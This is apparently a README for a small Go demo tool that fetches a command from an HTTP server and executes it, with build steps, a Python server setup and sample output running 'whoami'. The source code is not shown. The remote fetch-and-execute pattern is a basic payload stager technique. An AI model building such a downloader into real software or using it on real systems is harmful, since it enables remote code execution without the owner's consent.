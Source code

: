 # Golang http get request payload (http)

A really lame example of a simple http get request fetch and execute payload

## Compile the golang binary

```
go build http-payload-ex.go
```

Modify the payload server location before compiling

## Setup payload on server

```
echo -n "whoami" > payload.txt
```

The payload to be executed (Make sure it has no newlines)

```
python -m http.server 8080
```

Start python http server

## Run the executable

```
./http-payload-ex
Running command: whoami
sneakerhax
```



